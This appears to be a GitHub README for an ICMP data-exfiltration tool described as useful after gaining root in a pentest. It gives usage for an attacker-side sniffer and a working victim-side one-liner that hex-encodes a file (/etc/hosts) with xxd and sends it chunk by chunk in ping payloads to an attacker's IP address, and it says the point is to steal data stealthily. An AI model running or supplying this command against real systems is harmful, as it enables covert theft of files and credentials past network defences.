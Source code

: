 # ICMP-exfiltrator
A simple script for data exfiltration using ICMP packets.

This script will be useful at the end of a pentest to steal data when otherwise we could not.After getting root we could use this script to exfiltrate data to our attacker's server stealthily via ICMP packets.

# Usage

We let our sniffer listen.

``` python
python3 icmp_exfiltration.py 2> /dev/null
```
Using the xxd command we can encode a file and send it to the attacker's sniffer via ping. We have to write this command on the victim machine.

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attackers_IP_address> ; done
```
# Screenshots

![command.jpeg](https://github.com/Jokas-null/ICMP-exfiltrator/blob/main/screenshots/command.jpeg)

![etc passwd.jpeg](https://github.com/Jokas-null/ICMP-exfiltrator/blob/main/screenshots/etc%20passwd.jpeg)
